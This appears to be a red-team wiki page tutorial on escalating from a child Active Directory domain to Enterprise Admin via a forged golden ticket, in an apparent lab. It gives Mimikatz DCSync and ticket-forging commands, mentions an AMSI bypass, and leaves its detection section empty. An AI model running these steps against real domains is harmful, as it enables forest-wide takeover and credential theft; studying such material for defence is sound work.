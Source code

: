 # Krbtgt hash

## Attacking

### How it works

Once you gain Domain Admin privileges within the child domain its possible to get Enterprise Admin in the parent domain by generating a golden ticket in the child domain with the SID of the Enterprise Admin group.

### Tools

* [MimiKatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

The attack is executed from the perspective of already gaining domain admin privileges. This is done in the unconstrained delegation section:

{% content-ref url="../delegation-attacks/unconstrained-delegation/" %}
[unconstrained-delegation](../delegation-attacks/unconstrained-delegation/)
{% endcontent-ref %}

1. For easy execution, login on `WS01` as the `Administrator` user with the password `Welcome01!`.
2. Start PowerShell as Administrator and load a amsi bypass and MimiKatz into memory.

![](<../../../.gitbook/assets/image (20) (2).png>)

To execute the attack we need a couple bits of information:

* The hash of the krbtgt user.
* The SID of the Enterprise Admins group.
* The SID of the child domain.

3\. Execute a DCsync with MimiKatz and only retrieve the krbtgt hash:

```
Invoke-MimiKatz -Command '"lsadump::dcsync /user:amsterdam\krbtgt /domain:amsterdam.bank.local"'
```

![](<../../../.gitbook/assets/image (22) (1) (1).png>)

4\. Retrieve the SID of the enterprise Admins group, using PowerView:

```
Get-DomainGroup "Enterprise Admins" -Domain bank.local | Select-Object samaccountname, objectsid
```

![](<../../../.gitbook/assets/image (34) (2).png>)

5\. Retrieve the domain SID from the child domain, using PowerView:

```
Get-DomainSID
```

![](<../../../.gitbook/assets/image (21) (2).png>)

6\. Create a golden ticket with MimiKatz and inject it into the current session:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<CHILD DOMAIN SID> /krbtgt:<HASH> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /ptt"'
```

![](<../../../.gitbook/assets/image (70) (2).png>)

7\. The ticket injected successfully, now we can dir the c$ directory to check if our user has read/write access to the C disk:

![](<../../../.gitbook/assets/image (75) (1).png>)

## Defending

### Detection



## References

{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1" %}
